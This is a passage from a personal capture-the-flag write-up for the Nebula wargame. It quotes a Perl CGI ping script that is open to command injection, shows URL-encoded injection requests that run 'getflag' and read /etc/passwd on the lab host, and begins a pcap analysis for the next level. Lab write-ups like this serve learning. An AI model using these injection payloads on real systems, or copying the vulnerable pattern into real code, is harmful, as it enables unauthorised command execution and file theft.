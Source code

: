 ```perl
  #!/usr/bin/perl
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  sub ping {
    $host = $_[0];
    print("<html><head><title>Ping results</title></head><body><pre>");
    @output = `ping -c 3 $host 2>&1`;
    foreach $line (@output) { print "$line"; }
    print("</pre></body></html>");
  }
  # check if Host set. if not, display normal page, etc
  ping(param("Host"));
```

I had never really looked at perl-code before. But it kind of made some sense I guess.
The config-file specified a port

```
# Specifies an alternate port number to listen on.
port=7007
dir=/home/flag07
```

So I found that port, and started curling to se what I could run. After a lot of trial and error
I found a way to do it:
curl "http://nebula.dev:7007/index.cgi?Host=www.google.com|getflag"
I also learned that you have to encode spaces correct otherwise the sever will get all confused. So if you wanna run any command with spaces you do it like this:
http://nebula.dev:7007/index.cgi?Host=%3Bcat%20/etc/passwd
I had to encode the semicolon. That was the key to it!

## Level 08

This is for sure my favorite level so far. I really enjoy analyzing packets.
So first I moved the pcap-file to my computer with netcat, and then I opened it up in wireshark.
There was no http-requests. So I guess this traffic was not on the web.
There are two machines talking:
59.233.235.218 - 39247
59.233.235.223 - 12121
So looking at the packets we can tell that the machines are in Bejing, both of them. The source and destination corrdinates show that they are in the same place.
After looking up the ports I found this:
http://www.speedguide.net/port.php?port=12121

```
12121 	tcp 	trojans 	Backdoor.Balkart (2004.09.02) - a backdoor trojan horse that can act as a HTTP proxy or FTP server
Port is also IANA registered for NuPaper Session Service 	SG
12121 	tcp,udp 	nupaper-ss 	NuPaper Session Service 	IANA
12121 	tcp 	threat 	Balkart
```

Even though it doesn't really say in the challenge what kind of traffic this is, I like to image that it was someone who had infected the 12121 computer with the Balkart-trojan. <a href="https://www.symantec.com/security_response/writeup.jsp?docid=2004-090212-3607-99">This one</a>. But it doesn't really matter, it is irrelevant for this challenge.
So I went over the packets and found some interesting ones.
